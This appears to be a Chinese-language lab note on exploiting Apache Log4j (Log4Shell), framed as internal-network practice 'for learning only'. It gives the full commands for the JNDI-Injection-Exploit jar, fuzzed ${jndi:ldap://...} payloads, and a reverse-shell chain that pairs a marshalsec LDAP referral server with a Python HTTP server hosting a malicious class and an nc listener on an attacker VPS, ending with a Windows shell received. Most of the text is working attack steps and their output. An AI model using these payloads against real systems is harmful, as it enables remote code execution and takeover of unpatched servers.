

# 以下都是内网学习打的，仅供学习
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.109
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.109:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/kavkt9
ldap://10.10.10.109:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/m5m8wo
ldap://10.10.10.109:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.109:1389/m5m8wo} `


## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell
我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址
然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}


效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell


# 以上都是内网学习打的，仅供学习